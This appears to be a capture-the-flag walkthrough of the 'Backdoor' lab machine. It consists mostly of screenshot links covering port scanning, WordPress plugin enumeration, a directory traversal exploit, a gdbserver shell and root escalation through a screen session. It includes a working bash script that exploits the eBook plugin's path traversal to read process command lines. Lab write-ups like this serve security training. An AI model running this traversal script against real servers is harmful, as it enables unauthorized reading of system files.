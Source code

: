 ![](backdoor%20loga.png)

# nmap
## nmap all ports
![](Backdoor/screenshots/nmap%20all%20ports.png)

## nmap services and versions
![](nmap%20versions%20and%20services.png)

# gobuster
## gobuster main
![](Backdoor/screenshots/gobuster%20main.png)

## gobuster main/wp-content
![](gobuster%20wp-content.png)

## wp-content/plugins
![](main-wp-contnent-plugins.png)

# searchsploit
![](searchsploit%20wordpress%20ebook.png)

## ebook poc directory traversal
![](wordpress%20ebook%20directory%20traversal.png)
## wordpress ebook directory traversal
![](wp-config.php.png)

## find out process id of port 1337
## test for process id 1 request
![](burp%20request%20process%20id.png)

## response succesfull
![](burp%20response%20process%20id.png)

## bash script for enumerating process IDs
````bash

#!/bin/bash


for pid in $(curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../proc/sched_debug' --output - | awk '{print $3}' | grep -oP "\d{1,6}" | sort -u); do 
    
    content=$(timeout 1 bash -c "curl -s "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../proc/$pid/cmdline"" --output - | awk -F 'cmdline' '{print $4}' | awk -F '<script>' '{print $1}' | tr -d "\0" &)

	if test $content; then
		echo "[*] PID $pid: " | tr -d "\n" 
		echo $content
	fi

done

`````

## snippet of PIDs
![](gdbserver%20PID%20990.png)


## searchsploit gdbserver
![](searchsploit%20gdbserver.png)

## shell as user
![](shell%20as%20user.png)

# linpeas
## screen session is running as root
![](linpeas%20screen%20session.png)

## screen -dmS root
## start screen session in detached mode as root

## attach root screen session
![](screen%20attach%20session%20%20as%20root.png)
![](screen%20root.png)

# shell as root
![](shell%20root.txt.png)
XXXXXXXxx